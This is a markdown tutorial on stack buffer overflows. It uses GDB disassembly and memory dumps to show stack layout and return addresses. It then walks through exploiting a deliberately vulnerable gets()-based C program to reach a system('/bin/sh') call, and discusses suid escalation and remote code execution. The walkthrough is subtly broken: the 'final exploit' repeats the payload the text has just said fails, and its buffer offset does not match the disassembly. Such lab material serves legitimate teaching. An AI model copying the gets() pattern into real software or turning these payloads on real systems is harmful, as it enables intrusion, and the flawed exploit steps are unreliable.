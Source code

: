 # Buffer overflow

So, as I wrote before this vulnerability allows you to overwrite data.

## Structure within the stack

Suppose that we have a follow program:
```C
#include <stdlib.h>
/*
This program is simple as possible
*/

// Compile with:
// gcc stack-example.c -o stack-example -m32
// -m32 option is just for better explanation

int some_func1(int a, int b, int c, int d, int e, int f){
  int result = some_func2(e, f);
  return a + b + c + d + result;
}

int some_func2(int e, int f){
  int argv[10];
  short ind;
  size_t len = 10;
  for(ind = 0; ind < 10; ind++){
    argv[ind] = ind;
  }
  return e * f;
}

int main(int argc, char *argv[]){
  int a = 1, b = 2, c = 3, d=4, e=5, f=6;
  int result = some_func1(a, b, c, d, e, f);
  return 0;
}
```

When the program starts, the stack contains the argc and argv arguments to the main function (also envp).
When a new function is executed, its arguments are moved either to registers (for example, `rax`, `rbx`, `rcx`, `rdx`, `rdi`, `rsi` in Intel x86-64), or directly onto the stack (via `push 0x1` type of instructions).

Let's take a look at the assembly instructions within main:

```bash
gef➤  disas main
Dump of assembler code for function main:
   0x5655620c <+0>:	lea    ecx,[esp+0x4]
   0x56556210 <+4>:	and    esp,0xfffffff0
   0x56556213 <+7>:	push   DWORD PTR [ecx-0x4]
   0x56556216 <+10>:	push   ebp
   0x56556217 <+11>:	mov    ebp,esp
   0x56556219 <+13>:	push   ecx
   0x5655621a <+14>:	sub    esp,0x24
   0x5655621d <+17>:	call   0x5655627e <__x86.get_pc_thunk.ax>
   0x56556222 <+22>:	add    eax,0x2dde
   0x56556227 <+27>:	mov    DWORD PTR [ebp-0xc],0x1
   0x5655622e <+34>:	mov    DWORD PTR [ebp-0x10],0x2
   0x56556235 <+41>:	mov    DWORD PTR [ebp-0x14],0x3
   0x5655623c <+48>:	mov    DWORD PTR [ebp-0x18],0x4
   0x56556243 <+55>:	mov    DWORD PTR [ebp-0x1c],0x5
   0x5655624a <+62>:	mov    DWORD PTR [ebp-0x20],0x6
   0x56556251 <+69>:	sub    esp,0x8
   0x56556254 <+72>:	push   DWORD PTR [ebp-0x20]
   0x56556257 <+75>:	push   DWORD PTR [ebp-0x1c]
   0x5655625a <+78>:	push   DWORD PTR [ebp-0x18]
   0x5655625d <+81>:	push   DWORD PTR [ebp-0x14]
   0x56556260 <+84>:	push   DWORD PTR [ebp-0x10]
   0x56556263 <+87>:	push   DWORD PTR [ebp-0xc]
   0x56556266 <+90>:	call   0x56556189 <some_func1>
   0x5655626b <+95>:	add    esp,0x20
   0x5655626e <+98>:	mov    DWORD PTR [ebp-0x24],eax
   0x56556271 <+101>:	mov    eax,0x0
   0x56556276 <+106>:	mov    ecx,DWORD PTR [ebp-0x4]
   0x56556279 <+109>:	leave  
   0x5655627a <+110>:	lea    esp,[ecx-0x4]
   0x5655627d <+113>:	ret    
End of assembler dump.
gef➤  

```

You can see that here we are pushing 1, 2, 3, 4, 5, 6 onto the stack at ebp - some offset. `ebp` is just a base pointer that is placed at the bottom of the stack portion of the currently called function.
EBP also provides access to the required address on the stack where the values ​​of the variables are stored. So, when you declare the first variable in a function and set some value for it, for example, int value = 4, you can access it with `ebp - 0x4`. If you have a buffer of integers, for example, 10 in size, you can access it with `ebp - 0x28`. Etc.

Proof of concept:
```bash
gef>  b *some_func1 + 11
gef➤  x/50wx $ebp
0xffffd1d8:	0xffffd228	0x5655626b	0x00000001	0x00000002
0xffffd1e8:	0x00000003	0x00000004	0x00000005	0x00000006
0xffffd1f8:	0x00000000	0x56556222	0xf7fb13fc	0x56559000
0xffffd208:	0x00000006	0x00000005	0x00000004	0x00000003
0xffffd218:	0x00000002	0x00000001	0xf7fe4520	0xffffd240
0xffffd228:	0x00000000	0xf7df1b41	0xf7fb1000	0xf7fb1000
0xffffd238:	0x00000000	0xf7df1b41	0x00000002	0xffffd2d4
0xffffd248:	0xffffd2e0	0xffffd264	0x00000001	0x00000000
0xffffd258:	0xf7fb1000	0xffffffff	0xf7ffd000	0x00000000
0xffffd268:	0xf7fb1000	0xf7fb1000	0x00000000	0xc574ab7c
0xffffd278:	0x84e62d6c	0x00000000	0x00000000	0x00000000
0xffffd288:	0x00000002	0x56556050	0x00000000	0xf7fe9690
0xffffd298:	0xf7fe4520	0x56559000
```

At the address of `0xffffd1d8` - `0xffffd1e8` you can see our values 1, 2, 3, 4, 5, 6. But before them you can see the address `0x5655626b` which is just the address of the next assembly instruction after `some_func1` call. This is a return address, and the `ret` instruction will take it and place it in `eip` register which holds the address of the next instruction to execute.

## Exploitation

So, I wrote a simple program that has a part with a `system` unix syscall to execute `/bin/sh`. You need to compile it without a stack protection.

```C
#include <unistd.h>

//  gcc buffer-overflow.c -o buffer-overflow -fno-stack-protector

int main(int argc, char *argv[]){
  char vuln_buff[100];
  int access = 4321;
  // vulnerable
  gets(vuln_buff);
  if (access == 1234){
    system("/bin/sh");
  }
  return 0;
}
```

Also, it used vulnerable function `gets`. But this is vulnerable because it doesn't check the input size. It may be also a programming mistake with `read`.
Okay, we know the size of buffer, buf if we wouldn't know, then you can see it in the gdb:

```bash
0x0000000000001183 <+26>:	lea    rax,[rbp-0x70]
0x0000000000001187 <+30>:	mov    rdi,rax
0x000000000000118a <+33>:	mov    eax,0x0
0x000000000000118f <+38>:	call   0x1070 <gets@plt>
```

Line `+26` shows you that for some reasons, buffer size in machine code is 112 bytes. So, you can exploit it:

```bash
gcc buf-overflow.c -o buffer-overflow -fno-stack-protector
(python -c 'print "A"*112 + "\xdd\xdd"'; cat) | ./buffer-overflow
```

But, you don't get a shell, cause you overwritten the access variable with `0xdddd`. You can with what hex address it compares in the gdb:

```bash
   0x0000000000001194 <+43>:	cmp    DWORD PTR [rbp-0x4],0x4d2
```

So, your final exploit:

```bash
(python -c 'print "A"*112 + "\xdd\xdd"'; cat) | ./buffer-overflow
```

And you will get a shell, but you will be you, not the other user or root. Yeah, in this kind of program, the vulnerability is useless for an attacker, but if it has a `suid` bit set(`chmod ug+s buffer-overflow` as another user), he can get a root or another user privilege. But, if a program with some network interactions has this vulnerability, then the attacker can get Remote Code Execution or RCE, even if the program doesn't have a suid on root or other user. Also, the main reason for RCE here is condition which gives a shell, but even so, this vulnerability opens a thread to further exploitation.

- [ ] Setup a virtual machine and put this program in its environment, then show the exploitation again.
